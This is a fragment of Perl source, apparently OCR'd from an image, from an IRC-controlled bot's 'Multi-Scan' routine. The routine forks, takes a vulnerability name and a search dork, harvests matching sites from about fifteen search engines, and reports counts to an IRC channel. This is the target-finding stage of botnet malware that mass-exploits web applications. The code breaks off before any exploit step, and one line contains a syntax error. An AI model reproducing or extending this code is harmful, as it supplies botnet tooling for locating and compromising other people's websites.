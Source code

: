 if (fork) { 

exit; 

} else { 

my $bug=$1; 

my $dork=$2; 

my $contatore=0; 

                  my ($type,$space); 

                  my %hosts; 

                  ### Start Message 

                  sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3Multi-Scan12] Starting Scan for 4$bug $dork"); 

                  sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3Multi-Scan12] Initializing on 45 12Search Engines "); 

                  ### End of Start Message 

# Starting Google 

   my @glist=&google($dork); 

sendraw($IRC_cur_socket, "PRIVMSG $printl 7[4@3Multi-Scan12] 2G4o8o2g3l4e 7[".scalar(@glist)."7] Sites"); 

   my @mlist=&msn($dork); 

   my @asklist=&ask($dork); 

   my @allist=&alltheweb($dork); 

   my @aollist=&aol($dork); 

   my @lycos=&lycos($dork); 

   my @ylist=&yahoo($dork); 

   my @mzlist=&mozbot($dork); 

   my @mamalist&mamma($dork); 

   my @hlist=&hotbot($dork); 

   my @altlist=&altavista($dork); 

   my @slist=&search($dork); 

   my @ulist=&uol($dork); 

   my @fireball=&fireball($dork); 

sendraw($IRC_cur_socket, "PRIVMSG $printl :4[4@3Multi-Scan12]12 2G4o8o2g3l4e 7[".scalar(@glist)."7] Sites"); 
